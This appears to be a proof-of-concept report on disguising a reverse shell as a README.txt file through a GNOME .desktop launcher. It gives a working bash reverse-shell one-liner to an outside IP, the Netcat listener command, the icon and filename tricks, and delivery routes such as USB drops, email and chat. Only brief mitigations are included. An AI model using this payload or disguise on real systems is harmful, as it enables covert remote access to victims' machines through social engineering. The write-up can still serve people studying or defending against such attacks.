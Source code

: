 # Technical Report: Reverse Shell Delivery via `.desktop` Launcher


## Objective

- Disguise an executable reverse shell as a trusted, text-based document  
- Deliver the payload in a single file, with no external dependencies  
- Trigger a reverse shell back to a Kali Linux listener upon click

---

## Threat Model

### Attacker Goals

- Gain an interactive remote shell on the target system  
- Maintain stealth through social engineering and file disguise  
- Avoid detection by not requiring administrative privileges or file downloads  

### Assumptions

- The victim uses a GNOME-based Linux desktop (e.g., Ubuntu)
- The user is socially engineered into trusting and launching the disguised file  
- The target machine has outbound network access to the attacker's listener  

### Attacker Capabilities

- Ability to craft a malicious `.desktop` launcher with a reverse shell payload  
- Means of delivering the file to the target (e.g., via USB, phishing, shared folder)  
- Control over a listener machine to receive incoming connections (Kali with `nc`)  

### Victim Environment

- User operates under a non-restricted Linux desktop environment  
- No outbound firewall blocking the reverse shell connection  
- Default GNOME behavior is intact (trust prompt on `.desktop` files)

---

## MITRE ATT&CK Techniques

The following table maps the techniques used in this proof-of-concept to the [MITRE ATT&CK Framework](https://attack.mitre.org/):

| Tactic                  | Technique                                 | ID            | Description |
|-------------------------|-------------------------------------------|---------------|-------------|
| **Initial Access**      | User Execution: Malicious File            | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | The `.desktop` file is disguised as a benign `README.txt` to trick the user into executing it. |
| **Execution**           | Command and Scripting Interpreter: Bash   | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Bash is used to execute the reverse shell payload. |
| **Defense Evasion**     | Masquerading                              | [T1036](https://attack.mitre.org/techniques/T1036/) | The launcher file mimics a `.txt` document with a text icon and filename. |
| **Command and Control** | Application Layer Protocol: Custom TCP    | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | The reverse shell uses a raw TCP connection (via Netcat). |

---

### Limitations

- Requires user interaction (file must be trusted and launched)  
- The payload runs with the user’s privileges (not root)  
- Network-dependent: reverse shell fails if outbound traffic is blocked   

### Mitigations

- Disable `.desktop` file execution from user-writable directories  
- Enforce outbound firewall rules or use network segmentation  
- Improve user awareness through training against disguised file traps  

---

## Implementation Details

### File: `README.txt.desktop`

- **Filename shown to user:** `README.txt`  
- **Real extension:** `.desktop` (GNOME launcher)  
- **Icon used:** `text-x-generic` (appears like a text file)  
- **Trust method:** GNOME “Allow Launching” system  

### Payload Logic

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.14/6969 0>&1'
```
---

## Deployment and Execution

### Attacker Setup (Kali Linux)

The attacker prepares a Netcat listener on port `6969` to receive the reverse shell connection:

```bash
nc -lvnp 6969
```
### Victim Interaction

The attacker delivers the `README.txt.desktop` file to the target system. Possible delivery methods include:

- USB drop (removable media left in a shared area)
- File sharing platforms (e.g., shared folders, cloud drives)
- Email attachment (if not filtered)
- Direct messaging (Slack, Discord, etc.)

The user must:

1. Save the file to their Desktop.
2. **Right-click the file and select "Allow Launching"**. This is required to make the launcher executable in GNOME.
3. Double-click the file to run it.
4. Once launched, the payload executes silently and initiates a reverse shell to the attacker.

If the user does not manually allow launching, the file will remain inert and appear as plain text.


---

## Screenshots


- Disguised file on Desktop  
  `![Disguised File](images/disguised-file.png)`

- User manually selects “Allow Launching”  
  `![Allow Launching](images/allow-launching.png)`

- Reverse shell connection received  
  `![Shell Connected](images/shell-connected.png)`


---

## Conclusion

This proof-of-concept demonstrates how `.desktop` launcher files can be leveraged to gain remote shell access through basic user interaction and visual deception. Despite its simplicity, this method is capable of bypassing technical defenses when paired with effective social engineering.
